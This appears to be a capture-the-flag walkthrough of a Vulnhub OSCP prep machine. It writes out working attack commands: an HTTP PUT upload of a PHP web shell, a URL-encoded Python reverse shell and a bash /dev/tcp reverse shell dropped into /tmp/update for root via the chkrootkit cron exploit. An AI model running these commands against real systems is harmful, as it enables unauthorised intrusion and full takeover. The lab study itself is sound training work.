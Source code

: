 ```yaml
---
published: false
---
```

Vulnhub virtual machine; OSCP prep box, included a webserver enumeration of OPTIONS which led to a PUT upload of reverse shell. Priv-escalation required a pivot through chkrootkit and a reverse shell executed by crontab.


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


Locate VM on network

    netdiscover -r 192.168.56.0/24

Target: 192.168.56.104

# Enumeration

Nmap Scan

    nmap -sV -sC -oA nmap/sickos 192.168.56.104

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143231494_image.png)


Investigate HTTP server
http://192.168.56.104

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143297082_image.png)


source:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143332170_image.png)



`blow.jpg` downloaded and check for stegonography

    file blow.jpg

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143395392_image.png)

    strings blow.jpg

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143499746_image.png)


Gobuster HTTP server

    gobuster -u http://192.168.56.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster-webservices.out

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143588912_image.png)


`/test` directory found and possible other different looking directory.

`/test` Directory

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143680347_image.png)


*lighttpd/1.4.28 identified*


Searchsploit

    searchsploit lighttpd

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143837868_image.png)


*“mod userdir Information Disclosure” looks interesting - download locally and view*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551143983847_image.png)


Security focus website

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551144235792_image.png)


*This might be worth investigating here in the future.*

Checking the webserver OPTIONS of `/test`

    curl -v -X OPTIONS http://192.168.56.104/test

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551144582626_image.png)


*Webserver allows* `*put*`. We can send quick one liner to it and see if it executes.


# RCE

PUT shell.php on webserver 

    curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://192.168.216.128/test/shell.php

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551145257532_image.png)


*uploaded completed!*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551145399566_image.png)


*File is indeed on remote box now to test code execution.*


    192.168.56.104/test/shell.php?cmd=whoami

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551145480961_image.png)


Reverse shell
use standard [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) reverse shell and URL encoded it. - I did encounter issues with the port which lead me to believe we might be dealing with some type of firewall internally.

    python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22192.168.56.101%22%2C443))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D)%3B%27

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551147395731_image.png)


*We have a partial shell now and just require to upgrade.*

Upgrade to tty

    python -c 'import pty; pty.spawn("/bin/bash")'
    press cntl+z 
    stty raw -echo
    fg (enter)


cat `/etc/passwd`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551147539388_image.png)


checking for chkrootkit

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551148893450_image.png)


version test

    chkrootkit -V

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551148957967_image.png)


Luckly there is an exploit for verison 0.49 found at: https://www.exploit-db.com/exploits/33899/

Priv-esc is accomplished by writing an `update` file within `/tmp` which gets executed by the cron.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551149117307_image.png)


Create `update` file
We need to push this reverse shell via 443 to bypass firewall

    printf '#!/bin/bash\nbash -i >& /dev/tcp/192.168.56.101/443 0>&1\n' >> /tmp/update

next change the `chmod`

    chmod 777 update

wait for callback on port 443

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551150479288_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_6B7172464E995F4425EB38057E54911B4E12D6008135FD05D7D0FAF0E7EFE43C_1551150634428_image.png)


Bring me the root!

-exec

